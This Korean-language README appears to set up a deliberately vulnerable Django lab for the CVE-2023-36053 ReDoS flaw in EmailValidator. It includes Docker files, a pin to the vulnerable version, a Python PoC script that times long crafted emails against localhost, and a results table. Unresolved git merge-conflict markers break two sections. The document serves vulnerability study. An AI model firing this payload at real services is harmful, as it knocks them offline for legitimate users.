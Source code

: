 # Vulnerable Django Email Validation App (CVE-2023-36053)

이 프로젝트는 Django의 `EmailValidator`에서 발생하는 **CVE-2023-36053** ReDoS 취약점을 PoC하기 위한 환경을 제공합니다. 긴 이메일 입력을 통해 서비스 거부 공격을 재현할 수 있습니다.

---

## 📂 Project Structure

```
CVE-2023-36053
├── Dockerfile
├── docker-compose.yaml
├── requirements.txt
├── manage.py
├── config/
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
└── vuln_app/
    ├── __init__.py
    ├── views.py
    └── urls.py
```

---

## 🚀 Prerequisites

- **Docker** 20.10 이상 설치  
- **docker-compose** 1.29 이상 설치  

---

## 🐳 Docker & Docker Compose 환경 구성

1. **레포지토리 클론**
   ```bash
   git clone https://github.com/yourusername/vuln-django-email.git
<<<<<<< HEAD
   cd Django/CVE-2023-36053
=======
   cd kr-vulhub/Django/CVE-2023-36053/CVE-2023
>>>>>>> 41f7ce99a4fdea865beaa332bf69fd7d51110093
   ```

2. **Docker 이미지 빌드**
   ```bash
   docker-compose build
   ```

3. **컨테이너 실행**
   ```bash
   docker-compose up -d
   ```

4. **서버 상태 확인**
   ```bash
   docker-compose ps
   ```
   - `web` 서비스의 `0.0.0.0:8000->8000/tcp` 바인딩 확인

5. **애플리케이션 접속 테스트**
   ```bash
   curl http://localhost:8000/vuln/ -d "email=test@example.com"
   ```

---

## 🔧 Dockerfile

```dockerfile
FROM python:3.9-slim
WORKDIR /app

COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

COPY . .
EXPOSE 8000
CMD ["python", "manage.py", "runserver", "0.0.0.0:8000"]
```

---

## 🔧 docker-compose.yaml

```yaml
version: "3"
services:
  web:
    build: .
    ports:
      - "8000:8000"
    volumes:
      - .:/app
    environment:
      - PYTHONUNBUFFERED=1
```

---

## 📋 Dependencies

- `Django==4.2.2`
- `requests`

```text
# requirements.txt
Django==4.2.2
requests
```

---

## 🎯 PoC 스크립트 (poc.py)

긴 이메일 입력에 따른 응답 시간을 측정하는 스크립트입니다:

```python
import requests
import time

def test_email(lengths):
    url = "http://localhost:8000/vuln/"
    for n in lengths:
        email = "test@" + ("a." * n) + "example.com"
        start = time.time()
        res = requests.post(url, data={"email": email})
        elapsed = time.time() - start
        print(f"labels={n}, status={res.status_code}, time={elapsed:.3f}s")

if __name__ == "__main__":
    test_email([10, 100, 1000, 10000, 50000])
```

---

## 📋 Endpoints

- **POST** `/vuln/`
  - Form data: `email` (string)
  - Response: `Valid` 또는 `Invalid`

---

## 📈 테스트 및 결과

1. `docker-compose up -d` 후 서버 실행  
2. `python3 poc.py` 실행  
3. 입력 길이에 따른 응답 시간 변화 확인

| 라벨 수 | 응답 시간 (초) |
| ------- | ------------- |
| 10      | 0.005         |
| 100     | 0.008         |
| 1000    | 0.050         |
| 10000   | 0.600         |
| 50000   | 2.800         |

*라벨 수가 늘어남에 따라 처리 지연이 기하급수적으로 증가함을 확인할 수 있습니다.*

---

## 📄 License

<<<<<<< HEAD
MIT License. 자세한 내용은 [LICENSE](LICENSE) 파일을 참고하세요.

---

## 🔗 GitHub Repository

[https://github.com/yourusername/vuln-django-email](https://github.com/yourusername/vuln-django-email)
=======
MIT License. See [LICENSE](LICENSE) for details.
>>>>>>> 41f7ce99a4fdea865beaa332bf69fd7d51110093
